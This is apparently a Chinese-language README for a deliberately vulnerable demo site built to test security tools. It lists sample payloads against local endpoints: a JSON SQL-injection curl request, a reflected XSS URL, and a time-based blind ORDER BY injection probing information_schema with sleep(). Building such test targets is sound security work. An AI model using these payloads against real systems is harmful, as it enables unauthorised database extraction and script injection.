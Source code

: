 创建此仓库是为了测试安全工具开发而写的存在漏洞的demo网站

payload:

SQL注入支持json，post，get传参where注入

json curl：

curl http://127.0.0.1/sql.php -X POST -H "application/json" -d '{"id":"1"}' --proxy http://127.0.0.1:8080

xss

http://127.0.0.1/xss.php?name=\&age=-alert(1)//

order by注入

select * from user ORDER BY id,if((select (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=(SELECT DATABASE()) limit 1),1,1)='u')),sleep(1),0)

http://127.0.0.1/orderby.php?orderby=,if((select%20(SUBSTR((SELECT%20table_name%20FROM%20information_schema.TABLES%20WHERE%20table_schema=(SELECT%20DATABASE())%20limit%201),1,1)=%27u%27)),sleep(1),0)


